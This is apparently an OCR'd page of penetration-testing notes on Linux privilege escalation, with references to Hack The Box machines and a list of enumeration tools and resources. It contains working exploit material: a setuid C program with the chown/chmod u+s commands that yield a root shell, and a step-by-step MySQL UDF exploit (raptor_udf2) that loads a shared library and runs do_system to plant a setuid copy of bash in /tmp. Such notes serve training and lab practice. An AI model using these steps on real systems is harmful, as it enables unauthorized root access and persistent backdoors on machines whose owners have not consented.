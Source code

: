 Recover Deleted Files :

extundelete (HTB mirai - https://tiagotavares.io/2017/11/mirai-hack-the-box-retired/)
strings
C Program to SetUID /bin/bash :
gcc -Wall suid.c -o exploit

sudo chown root exploit

sudo chmod u+s exploit

$ ls -l exploit
-rwsr-xr-x 1 root users 6894 11 sept. 22:05 exploit

1 #include <unistd.h>
2
3 int main()
4 {
5 setuid(0);
6 execl("/bin/bash", "bash", (char *)NULL);
7 return 0;
8 }

./exploit
# whoami
root

Tools :

Linux Exploit Suggester (HTB Nibbles) (https://github.com/mzet-/linux-exploit-
suggester)

SUIDENUM (https://github.com/Anon-Exploiter/SUID3NUM)
LinEnum.sh (https://github.com/rebootuser/LinEnum)

linpeas.sh (https://github.com/carlospolop/privilege-escalation-awesome-scripts-
suite/tree/master/linPEAS)

Linprivchecker (https://github.com/sleventyeleven/linuxprivchecker)
pspy (https://github.com/DominicBreuker/pspy) (crontabs)
Resources :

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
https://github.com/Ignitetechnologies/Privilege-Escalation
https://gtfobins.github.io/
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Mysql
MYSQL UDF Exploit: https://www.exploit-db.com/exploits/1518

1 gcc -g -c raptor_udf2.c -fPIC
2 gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -
3
4 mysql -u root
5
6 use mysql;
7 create table foo(line blob);
8 insert into foo values(load_file('/home/raptor_udf2.so'));
9 select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
10 create function do_system returns integer soname 'raptor_udf2.so';
11
12 select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
13
14 exit
15
16 user@target$ /tmp/rootbash -p
